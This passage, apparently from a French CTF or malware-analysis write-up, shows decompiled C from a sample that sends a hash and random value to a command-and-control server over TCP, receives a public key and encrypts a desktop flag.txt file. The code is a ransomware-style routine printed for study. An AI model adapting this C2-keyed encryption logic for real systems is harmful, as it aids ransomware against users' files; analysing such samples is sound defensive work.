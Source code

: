 ```c
  // Conversion en hexadecimal (0x20 = 32)
  while (index < 0x20) {
    sprintf(0_OneCharSha256SumCmdFullName + index * 2,"%02x",(ulong)sha256SumCmdFullName[index]);
    index = index + 1;
  }
  len = strlen(0_OneCharSha256SumCmdFullName);
  if (len != 0x40) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }

  // Calcul d'une valeur Pseudo Random
  actualTime = time((time_t *)0x0);
  srand((uint)actualTime);
  pseudoRandomValue = rand();
  pseudoRandomValueModulo = pseudoRandomValue % 1000;
  ModuloLogarithme = log10((double)pseudoRandomValueModulo);
  ModuloLogarithmeAddOne = (int)(ModuloLogarithme + 1.00000000);
  pseudoRandomInt = (char *)malloc((long)ModuloLogarithmeAddOne);
  sprintf(pseudoRandomInt,"%d",(ulong)pseudoRandomValueModulo);
  0_OneCharSha256Concat = concat(0_OneCharSha256SumCmdFullName,";");
  sha256WithPseudoRandomInt = concat(0_OneCharSha256Concat,pseudoRandomInt);
  len = strlen(sha256WithPseudoRandomInt);
  // Envoie la valeur calculé sha256 + pseudo random value
  sVar1 = send(tcp,sha256WithPseudoRandomInt,len,0);
  local_74 = (int)sVar1;
  if (local_74 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  // Réception de la clé publique
  sVar1 = recv(tcp,tcpBuffer,0x3ff,0);
  local_74 = (int)sVar1;
  if (local_74 < 1) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  // Fin de la string
  tcpBuffer[local_74] = '\0';

  // Fonction de chiffrement du flag
  encryptHomeFlag(tcpBuffer);
  close(tcp);
  sleep(10000);
  return;
}
```

Une fois le sha256 et la valeur pseudo random récupéré, il les envoie au c&c qui lui renvoie une clé publique. Cette clé publique servira ensuite à chiffrer le fichier `flag.txt` sur le bureau de l'utilisateur.
